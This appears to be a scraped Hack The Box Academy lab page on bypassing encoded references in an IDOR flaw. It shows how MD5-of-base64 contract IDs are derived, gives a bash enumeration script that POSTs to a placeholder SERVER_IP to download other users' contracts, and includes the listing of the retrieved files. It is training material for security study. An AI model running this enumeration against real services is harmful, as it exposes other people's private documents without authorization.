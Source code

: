 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/134/section/1187
// Platform Version: V1
// Module ID: 134
// Module Name: Web Attacks
// Module Difficulty: Medium
// Section ID: 1187
// Section Title: Bypassing Encoded References
// Page Title: Hack The Box - Academy
// Page Number: 9
-->

# Bypassing Encoded References

**Module Name:** Web Attacks **Page Number:** 9

#### 

#### WEB ATTACKS

# Bypassing Encoded References

![https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_contracts.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_contracts.jpg)

![https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_download_contract.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_download_contract.jpg)

``` php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

``` shell-session
[!bash!]$ echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b -
```

## Function Disclosure

``` javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

``` shell-session
[!bash!]$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```

## Mass Enumeration

``` shell-session
[!bash!]$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```

``` bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

``` shell-session
[!bash!]$ bash ./exploit.sh
[!bash!]$ ls -1

contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf
```

# 

# 

#### Questions

####